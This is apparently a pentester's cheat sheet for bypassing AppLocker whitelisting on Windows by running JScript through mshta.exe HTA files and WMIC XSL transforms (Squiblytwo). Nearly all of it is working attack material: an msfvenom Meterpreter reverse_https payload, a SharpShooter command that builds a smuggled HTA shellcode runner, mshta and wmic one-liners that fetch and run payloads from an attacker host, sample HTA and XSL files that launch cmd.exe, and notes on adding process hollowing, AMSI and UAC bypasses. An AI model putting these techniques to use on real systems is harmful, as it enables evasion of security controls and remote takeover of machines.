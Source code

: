 - Applocker will block jscript that isn't in a whitelisted folder or has a whitelisted hash/signature

### Method 1: MSHTA

    //works best w/ IE
    //execute .hta files (w/ embedded Jscript or VBS) with mshta.exe
    //**can run via HTTP/url

    //Shortcut File Method:  Create w/ Location:  C:\Windows\System32\mshta.exe http://192.168.1.1/test.hta

    //SharpShooter to generate .hta shellcode runner - OR DotNetToJScript to generate code, then place in HTA file
        msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw -o /tmp/cshcode
        sudo python2 SharpShooter.py --payload hta --output foo --stageless --rawscfile /tmp/cshcode --smuggle --template mcafee --dotnetver 4
            C:\Windows\System32\mshta.exe http://192.168.45.193/foo.hta

    //Example HTA file w/ JScript:
        <html> 
        <head> 
        <script language="JScript">
        var shell = new ActiveXObject("WScript.Shell");
        var res = shell.Run("cmd.exe");
        </script>
        </head> 
        <body>
        <script language="JScript">
        self.close();
        </script>
        </body> 
        </html>

### Method 2: XSL Transform (XSLT)

    //execution of embedded JScript when transforming XML to XHTML (Squiblytwo attack)

    //**trigger via http:  wmic process get brief /format:"http://192.168.45.193/test.xsl"
        //can make into shortcut file
        
    //improve w/ DotNetToJScript
        .\DotNetToJScript.exe ExampleAssembly_Hollower_base.dll --lang=Jscript --ver=v4 -o baseHollow.js
            //then copy jscript contents into test.xsl
        //can also add UAC bypass, etc.
        //copy Hollower into it

    //Example File (test.xsl):
    //***add amsi bypass to top of script
    //trigger:  wmic process get brief /format:"http://192.168.45.193/test.xsl"
        //can also make into shortcut file

        <?xml version='1.0'?>
        <stylesheet version="1.0"
        xmlns="http://www.w3.org/1999/XSL/Transform"
        xmlns:ms="urn:schemas-microsoft-com:xslt"
        xmlns:user="http://mycompany.com/mynamespace">
        <output method="text"/>
        <ms:script implements-prefix="user" language="JScript">
        <![CDATA[
        var r = new ActiveXObject("WScript.Shell");
        r.Run("cmd.exe");
        ]]>
        </ms:script>
        </stylesheet>